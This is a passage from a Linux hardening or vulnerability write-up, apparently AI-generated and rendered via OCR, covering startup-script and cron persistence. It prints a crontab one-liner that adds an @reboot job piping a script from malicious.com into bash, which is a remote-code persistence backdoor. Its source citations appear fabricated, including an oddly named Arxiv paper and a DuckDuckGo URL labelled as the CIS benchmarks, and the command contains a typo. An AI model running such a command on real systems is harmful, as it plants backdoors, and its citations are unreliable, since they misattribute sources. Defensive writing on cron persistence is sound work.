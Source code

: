       - **Tool**: `echo` (to append payloads)                                                                                                                                                                                          
      - **Prompt**: "Allow admin-defined startup scripts"                                                                                                                                                                              
      - **Resource**: `/etc/rc.local` or `crontab -l`                                                                                                                                                                                  
                                                                                                                                                                                                                                       
      ### Exploitation Example                                                                                                                                                                                                         
      ```bash                                                                                                                                                                                                                          
      (constab -l; echo "@reboot curl http://malicious.com/shell.sh | bash") | crontab -                                                                                                                                               
      ```                                                                                                                                                                                                                              
                                                                                                                                                                                                                                       
      ### Remediation Command                                                                                                                                                                                                          
      ```bash                                                                                                                                                                                                                          
      chmod 600 /etc/rc.local && chown root:root /etc/rc.local                                                                                                                                                                         
      ```                                                                                                                                                                                                                              
                                                                                                                                                                                                                                       
      ### Source Citations                                                                                                                                                                                                             
      - **Vulnerability**: [Ichirito: Startup Script Exploitation (Arxiv)](https://arxiv.org/abs/2103.03404)                                                                                                                           
      - **Remediation**: [CIS Linux Benchmarks (DuckDuckGo)](https://www.duckduckgo.com/cis-hardening)                                                                                                                                 
      - **Exploitation Example**: [Crontab Backdoor Tutorials (Hacker News)](https://news.ycombinator.com/)                                                                                                                            
                                                                                                                                                                                                                                       
      ---                                                                                                                                                                                                                              
                                                                                                                                                                                                                                       
      ## 4. **Unrestricted Cron Job Access**                                                                                                                                                                                           
      **Exploitation Vector**: Attackers leverage weak cron job permissions for lateral movement or persistence.                                                                                                                       
      **Tool, Prompt, & Resource**:                                                                                                                                                                                                    
      - **Tool**: `crontab`                                                                                                                                                                                                            